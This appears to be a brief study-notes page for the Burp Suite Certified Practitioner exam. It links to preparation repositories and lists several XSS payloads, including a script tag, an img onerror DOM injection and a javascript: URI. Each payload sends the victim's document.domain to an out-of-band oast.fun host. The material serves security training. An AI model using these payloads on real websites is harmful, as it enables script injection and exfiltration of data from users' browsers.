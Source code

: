 ___
[https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study)

[https://github.com/DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner)

[https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/](https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/)


```html
<script>location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;</script>
```

### DOM Based XSS


```html
#"><img src="x" onerror="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```


```js
javascript:alert(document.location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain)
```


```

```